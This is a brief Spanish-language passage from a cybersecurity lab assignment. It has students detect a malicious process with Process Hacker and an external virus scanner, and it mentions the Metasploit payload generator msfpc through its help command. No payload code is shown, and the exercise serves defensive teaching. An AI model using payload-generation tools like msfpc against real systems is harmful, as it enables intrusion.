
En el siguiente vídeo, se describe todo el proceso.
Vídeo 1. Detectar proceso malicioso con Process Hacker.
Uso de msfpc
Ejecuta el comando msfpc -h para obtener la Ayuda de la herramienta.
5. Entrega
Documento en formato pdf donde se describa gráfica y textualmente la detección del proceso malicioso mediante Process Hachker y una herramienta externa de análisis de virus.
Intenta obtener la mayor información posible del proceso malicioso con Process Hacker.
6. Referencias
Obra publicada con Licencia Creative Commons Reconocimiento No comercial Compartir igual 4.0